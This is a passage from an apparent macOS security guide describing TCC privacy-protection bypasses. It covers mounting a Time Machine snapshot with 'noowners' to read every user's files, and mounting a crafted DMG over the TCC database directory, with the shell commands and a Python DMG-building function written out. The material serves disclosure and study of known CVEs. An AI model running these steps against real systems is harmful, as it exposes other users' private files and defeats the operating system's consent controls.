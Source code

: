 **Any user** (even unprivileged ones) can create and mount a time machine snapshot an **access ALL the files** of that snapshot.\
The **only privileged** needed is for the application used (like `Terminal`) to have **Full Disk Access** (FDA) access (`kTCCServiceSystemPolicyAllfiles`) which need to be granted by an admin.

{% code overflow="wrap" %}
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
{% endcode %}

A more detailed explanation can be [**found in the original report**](https://theevilbit.github.io/posts/cve\_2020\_9771/)**.**

### CVE-2021-1784 & CVE-2021-30808 - Mount over TCC file

Even if TCC DB file is protected, It was possible to **mount over the directory** a new TCC.db file:

{% code overflow="wrap" %}
```bash
# CVE-2021-1784
## Mount over Library/Application\ Support/com.apple.TCC
hdiutil attach -owners off -mountpoint Library/Application\ Support/com.apple.TCC test.dmg

# CVE-2021-1784
## Mount over ~/Library
hdiutil attach -readonly -owners off -mountpoint ~/Library /tmp/tmp.dmg
```
{% endcode %}

```python
# This was the python function to create the dmg
def create_dmg():
	os.system("hdiutil create /tmp/tmp.dmg -size 2m -ov -volname \"tccbypass\" -fs APFS 1>/dev/null")
	os.system("mkdir /tmp/mnt")
	os.system("hdiutil attach -owners off -mountpoint /tmp/mnt /tmp/tmp.dmg 1>/dev/null")
	os.system("mkdir -p /tmp/mnt/Application\ Support/com.apple.TCC/")
	os.system("cp /tmp/TCC.db /tmp/mnt/Application\ Support/com.apple.TCC/TCC.db")
	os.system("hdiutil detach /tmp/mnt 1>/dev/null")
```

